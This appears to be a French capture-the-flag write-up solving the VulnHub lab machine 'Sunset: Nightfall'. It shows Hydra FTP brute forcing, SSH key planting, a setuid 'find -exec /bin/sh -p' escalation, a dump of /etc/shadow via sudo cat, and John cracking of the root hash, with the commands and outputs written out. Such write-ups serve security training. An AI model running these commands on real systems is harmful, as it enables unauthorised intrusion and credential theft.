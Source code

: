 ```yaml
---
title: "Solution du CTF Sunset: Nightfall de VulnHub"
tags: [VulnHub, CTF]
---
```


[Sunset: Nightfall](https://vulnhub.com/entry/sunset-nightfall,355/) est un CTF qui a été publié sur *VulnHub* en aout 2019. Il est plutôt simple, mais j'ai été bloqué par des outils qui ne voulaient pas fonctionner sans raison claire.

Il y a pas mal de services exposés et je me dis que je vais récupérer pas mal de données.

```
Nmap scan report for 192.168.56.155
Host is up (0.00016s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

## camarchepaschezmoi.com

Mais après 20/30 minutes à tourner sans rien trouver, force est de constater que quelque chose n'allait pas.

Sur ma machine toutes les énumérations SMB (`Nmap`, `enum4linux`, `Impacket`, etc) échouaient à me donner une liste d'utilisateurs.

Finalement j'ai booté Kali Linux sur le même réseau virtuel et `enum4linux` a pu me trouver des comptes utilisateurs. Sans doute une histoire de pare-feu.

```
 =================( Users on 192.168.56.155 via RID cycling (RIDS: 500-550,1000-1050) )=================
[I] Found new SID:
S-1-22-1

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[+] Enumerating users using SID S-1-22-1 and logon username '', password '' 
S-1-22-1-1000 Unix User\nightfall (Local User) 
S-1-22-1-1001 Unix User\matt (Local User)
```

On peut alors procéder à une attaque par force brute. L'option `-u` de `THC Hydra` itère sur les mots de passe PUIS les utilisateurs. Dans le cas contraire ça prend un utilisateur, teste tous les mots de passe puis passe à l'utilisateur suivant, ce qui est rarement ce que l'on souhaite (surtout si la wordlist est triée par popularité par exemple).

```console
$ hydra -u -L users.txt -P .wordlists/rockyou.txt -e nsr ftp://192.168.56.155
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-03 20:30:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688768 login tries (l:2/p:14344384), ~1793048 tries per task
[DATA] attacking ftp://192.168.56.155:21/
[STATUS] 304.00 tries/min, 304 tries in 00:01h, 28688464 to do in 1572:50h, 16 active
[21][ftp] host: 192.168.56.155   login: matt   password: cheese
```

On peut alors se connecter sur le serveur FTP avec les identifiants et on se retrouve dans le dossier personnel de `matt`.

Là on peut placer dans le dossier `.ssh` un fichier `authorized_keys` qui nous ouvrira les portes du SSH.

## +s

Je m'attaque alors à l'autre utilisateur :

```console
matt@nightfall:/var$ find / -user nightfall -ls 2> /dev/null 
   136320      4 drwxr-xr-x   4 nightfall nightfall     4096 Aug 28  2019 /home/nightfall
   136338      4 -rw-------   1 nightfall nightfall      337 Aug 17  2019 /home/nightfall/.mysql_history
   136342      4 drwxr-xr-x   3 nightfall nightfall     4096 Aug 17  2019 /home/nightfall/.local
   136343      4 drwx------   3 nightfall nightfall     4096 Aug 17  2019 /home/nightfall/.local/share
   142163      4 drwx------   3 nightfall nightfall     4096 Aug 28  2019 /home/nightfall/.gnupg
   136321      4 -rw-r--r--   1 nightfall nightfall     3526 Aug 17  2019 /home/nightfall/.bashrc
   136322      4 -rw-r--r--   1 nightfall nightfall      807 Aug 17  2019 /home/nightfall/.profile
   136323      4 -rw-r--r--   1 nightfall nightfall      220 Aug 17  2019 /home/nightfall/.bash_logout
   141111      4 -rw-------   1 nightfall nightfall       33 Aug 28  2019 /home/nightfall/user.txt
   136333      0 -rw-------   1 nightfall nightfall        0 Aug 28  2019 /home/nightfall/.bash_history
   136358      4 drwxr-xr-x   2 nightfall nightfall     4096 Aug 28  2019 /scripts
   136345    312 -rwsr-sr-x   1 nightfall nightfall   315904 Aug 28  2019 /scripts/find
```

Il y a une copie de `find` avec le bit setuid. Avec le shell obtenu je peux recopier le `authorized_keys` précédent pour l'appliquer à `nightfall`.

```console
matt@nightfall:/var$ /scripts/find /etc/motd -exec /bin/sh -p \;
$ id
uid=1001(matt) gid=1001(matt) euid=1000(nightfall) egid=1000(nightfall) groups=1000(nightfall),1001(matt)
$ cd /home/nightfall
$ ls
user.txt
$ cat user.txt
97fb7140ca325ed96f67be3c9e30083d
$ mkdir .ssh        
$ cp /home/matt/.ssh/authorized_keys .ssh/authorized_keys
```

Je rouvre une connexion SSH pour constater qu'il peut utiliser `cat` en tant que root. Les scénarios semblent limités alors je dumpe `/etc/shadow`.

```console
nightfall@nightfall:~$ sudo -l
Matching Defaults entries for nightfall on nightfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nightfall may run the following commands on nightfall:
    (root) NOPASSWD: /usr/bin/cat
nightfall@nightfall:~$ sudo /usr/bin/cat /etc/shadow
root:$6$JNHsN5GY.jc9CiTg$MjYL9NyNc4GcYS2zNO6PzQNHY2BE/YODBUuqsrpIlpS9LK3xQ6coZs6lonzURBJUDjCRegMHSF5JwCMG1az8k.:18134:0:99999:7:::
--- snip ---
```

Le mot de passe tombe rapidement.

```console
$ john --wordlist=wordlists/rockyou.txt /tmp/hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
miguel2          (root)     
1g 0:00:00:20 DONE (2023-04-03 20:51) 0.04980g/s 1440p/s 1440c/s 1440C/s smile4..chrish
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Et c'en est fini de *Nightfall*.

```console
nightfall@nightfall:~$ su
Password: 
root@nightfall:/home/nightfall# cd /root
root@nightfall:~# ls
root_super_secret_flag.txt
root@nightfall:~# cat root_super_secret_flag.txt
Congratulations! Please contact me via twitter and give me some feedback! @whitecr0w1
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
.................................................................................................................................................................................................................
................................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...................................................................................
..............................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.................................................................................
............................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...............................................................................
..........................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.............................................................................
........................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...........................................................................
......................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.........................................................................
....................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.......................................................................
...................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@......................................................................
..................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@.....................................................................
.................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@....................................................................
................................................................@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@...................................................................
................................................................&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&...................................................................
~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~~~~~~ ~~~~~~~~~~~ ~~~~~
Thank you for playing! - Felipe Winsnes (whitecr0wz)                                 flag{9a5b21fc6719fe33004d66b703d70a39}
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```
